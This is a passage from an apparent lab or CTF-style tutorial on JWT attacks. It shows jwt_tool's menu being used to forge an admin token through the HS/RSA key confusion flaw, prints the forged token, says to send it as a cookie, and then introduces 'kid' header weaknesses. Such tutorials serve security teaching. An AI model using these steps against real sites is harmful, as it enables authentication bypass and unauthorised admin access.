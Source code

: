 press `0`

Now the last Step:
The vulnerability here is `Sign with HS/RSA key confusion vulnerability` choose `4` and type the name of public key file name in this case our public key file name is `public.key` and hit `Enter` and if everything goes well we will get our new forged token.

```md
Token Signing:
[1] Sign token with known HMAC-SHA 'secret'
[2] Sign token with RSA/ECDSA Private Key
[3] Strip signature using the "none" algorithm
[4] Sign with HS/RSA key confusion vulnerability
[5] Sign token with key file
[6] Inject a key and self-sign the token (CVE-2018-0114)
[7] Self-sign the token and export an external JWKS
[8] Keep original signature

Please select an option from above (1-5):
> 4

Please enter the Public Key filename:
> public.key

====================================================================
This option takes an available Public Key (the SSL certificate from 
a webserver, for example?) and switches the RSA-signed 
(RS256/RS384/RS512) JWT that uses the Public Key as its 'secret'.
====================================================================
File loaded: public.key

Set this new token as the AUTH cookie, or session/local storage data (as appropriate for the web application).
(This will only be valid on unpatched implementations of JWT.)

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6ImFkbWluIn0.CN6XRx3X4MavzJW0pYNJWJzt0xdSLwnGRX6uHr35qGA

```

Now just send the forged cookie to the site using curl, burp suite, or simply using inspect element.
Finally we will get admin access :)

#### Vulnerabilities in KID

Let's see what is `KID` or `Key Identifier` :

`Kid` is an optional header claim which holds a key identifier, `kid` is useful when we have multiple keys to sign the token and we need to check the right key to verify the signature.
You can try exploit them if they are not properly sanitized.

### Multiple types of vulnerabilities in kid
